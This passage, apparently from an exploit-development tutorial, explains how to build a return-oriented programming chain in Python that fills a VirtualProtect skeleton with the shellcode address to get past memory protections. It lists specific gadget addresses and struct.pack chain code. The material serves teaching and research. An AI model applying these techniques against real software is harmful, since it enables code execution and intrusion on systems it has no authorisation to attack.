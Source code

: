 It's noteworthy that the third gadget ends with a `call` instruction. However, as we've illustrated earlier, this isn't an impediment. We can artfully use the address of a gadget implementing a `pop r32; ret` instruction, which essentially mimics a return.

Combining all the elements, here's a representation of how our gadget chain will look. The aim is to increment the value in `EBX` (which stores the address pointing to the `VirtualProtect` skeleton) by `0x104` bytes. The resulting address will point to the tentative shellcode location. Remember, this is an approximation. If the shellcode's actual location differs, only a singular value will need to be adjusted.

```python
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret  
rop += struct.pack('<L', 0xfffffefc) # 0 - 0x104
rop += struct.pack('<L', 0x625016ca) # neg eax ; ret // eax is now 0x104
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501afb) # pop edi ; ret
rop += struct.pack('<L', 0x62501e3a) # mov esi, eax ; call edi
rop += struct.pack('<L', 0x6250221c) # add esi, ebx ; ret  // esi is now ebx + 0x104
rop += struct.pack('<L', 0x62502412) # mov eax, esi ; pop esi ; pop edi ; ret
rop += struct.pack('<L', 0x41414141) # junk for esi
rop += struct.pack('<L', 0x41414141) # junk for edi 
```

At the end of the sequence of gadgets above, the `ESI` register is moved back into `EAX` during the `mov eax, esi ; pop esi ; pop edi ; ret instruction`. This step is essential due to the previously highlighted gadget that can move a value into a pointer:

```text
mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
```

With `EAX` now storing the prospective address of the shellcode location, the next objective is to transfer this address into the `VirtualProtect` skeleton as the second placeholder. To achieve this, the pointer in `EBX`, which points to the `VirtualProtect` skeleton, must be incremented by `0x04` bytes.

While a common gadget like the one below is often available, it's not the case this time:

```text
inc r32 ; ret

// where r32 would be EBX
```

The earlier chain has shown how to increment a value, but using that method to increase `EBX` by just `0x04` bytes is cumbersome, especially when needing to do it for multiple placeholders.

Fortunately, two more fitting gadgets were uncovered:

```text
0x62501eaf: mov  [ebx+0x04], eax ; call  [0x625070DC]
0x62501ecd: mov  [ebx+0x08], eax ; call  [0x62507104]
```

The first gadget can overwrite the second placeholder with `EAX`, while the second gadget can overwrite the third. Recalling the `VirtualProtect` skeleton from earlier discussions, both the second and third placeholders need the same value, the shellcode's location. Thus, with these two gadgets, two placeholders can be filled in one go.
